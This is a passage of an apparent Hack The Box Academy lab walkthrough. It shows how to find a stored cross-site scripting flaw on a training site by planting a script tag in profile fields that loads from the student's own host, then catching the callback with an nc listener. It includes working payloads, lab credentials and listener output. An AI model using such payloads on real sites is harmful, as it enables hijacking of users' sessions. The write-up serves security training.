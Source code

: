 ```
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-ngtblxja5i]─[~]
└──╼ [★]$ sudo sh -c 'echo "10.129.42.195 minilab.htb.net" >> /etc/hosts'
```

Subsequently, students need to navigate to `http://minilab.htb.net/submit-solution` to find that the URL-parameter `?url` is required:

![[HTB Solutions/CBBH/z. images/0f80f71a96beaf484dbb7b26df475dc3_MD5.jpg]]

Using the credentials `heavycat106:rocknrol` that are provided in the section, students need to navigate to `http://minilab.htb.net/` and sign in:

![[HTB Solutions/CBBH/z. images/b45f57eb5738321b2c1731a4e3a40ff2_MD5.jpg]]

Subsequently, students need to test all the field for XSS; to do so, students first need to start an `nc` listener:

Code: shell

```shell
nc -nvlp PWNPO
```

```
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-ngtblxja5i]─[~]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Then, students need to fill the `Telephone` and `Country` fields with a XSS payload that will request a file, as in `<script src=http://PWNIP:PWNPO/TelephoneField></script>`:

![[HTB Solutions/CBBH/z. images/652130b33e072f55af2c9e2431678d2b_MD5.jpg]]

![[HTB Solutions/CBBH/z. images/04222f18b8288a435386bbcdbadfec2e_MD5.jpg]]

After saving and clicking on `Share`, students will notice that there is a `GET` request to `/CountryField`, therefore, it is vulnerable to a stored XSS:

![[HTB Solutions/CBBH/z. images/8a5498ca1a45241361195c521f96c5dc_MD5.jpg]]

```
┌─[us-academy-1]─[10.10.14.41]─[htb-ac413848@htb-ngtblxja5i]─[~]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.14.41.
Ncat: Connection from 10.10.14.41:46502.
GET /CountryField HTTP/1.1
Host: 10.10.14.41:9001
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: keep-alive
Referer: http://minilab.htb.net/
Sec-GPC: 1
```
